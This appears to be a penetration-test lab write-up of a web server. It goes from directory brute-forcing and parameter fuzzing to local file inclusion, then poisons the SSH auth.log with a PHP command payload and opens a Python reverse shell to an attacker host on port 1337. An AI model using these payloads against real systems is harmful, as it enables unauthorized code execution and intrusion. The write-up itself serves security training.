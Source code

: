# Assessment
Note: The machine's IP will differ in the screenshots below due to service resets throughout the test.
## Service Enumeration
### Port Scan Results
- **TCP:** 22,80
## Initial Access
### Vulnerability Explanation
The HTTP server has an exposed misconfigured php file which allows an attacker to read internal files and poison SSH logs.
### Vulnerability Fix
Remove the vulnerable php file or harden its configurations to ensure proper input sanitization.
### Attack Walkthrough
The attacker uncovered a */console* directory in the http through a bruteforce attack, which revealed an interesting *file.php* file.
```bash
gobuster dir -u http://192.168.54.80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html,txt -o directories.txt
```

![/console directory](https://imgur.com/kObmWS7.png)

Knowing it's a php file, the tester then proceeded to fuzz for parameters which could potentially lead to local file inclusion or remote code execution. The tester identified that the parameter *file* was accepted and would include the contents of */etc/passwd* in the request.
```bash
ffuf -u 'http://192.168.54.80/console/file.php?FUZZ=/etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt  -fl 1
``` 

![Local file inclusion detected](https://imgur.com/RreZjic.png)

With the vulnerability uncovered, the tester utilized a list of common linux files to attempt to retrieve sensitive information. One of the files retrieved was the */var/log/auth.log* which contained the logs of the SSH service. The tester abused this finding by poisoning the log and requesting in back to obtain a reverse shell in the system.
```bash
ssh '<?php system($_GET["cmd"]);?>'@192.168.113.80 # to poison ssh log files
curl 'http://192.168.113.80/console/file.php?file=/var/log/auth.log&cmd=id' -o - # validate exploit
nc -lvnp 1337
## On browser:
http://192.168.88.80/console/file.php?file=/var/log/auth.log&cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.49.189%22,1337));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
